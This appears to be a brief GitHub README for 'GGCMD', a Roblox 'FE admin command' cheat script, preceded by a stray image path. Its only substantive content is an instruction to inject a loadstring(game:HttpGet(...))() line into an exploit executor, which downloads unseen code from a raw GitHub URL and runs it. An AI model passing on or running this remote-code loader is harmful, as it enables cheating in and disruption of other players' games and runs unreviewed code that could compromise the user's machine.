GGCMD is fully FE best admin command 

©Copyrights



TO RUN INJECT THIS

loadstring(game:HttpGet("https://raw.githubusercontent.com/flepo-hack/GGCMD/refs/heads/main/5j86"))()

INTO AN EXECUTOR

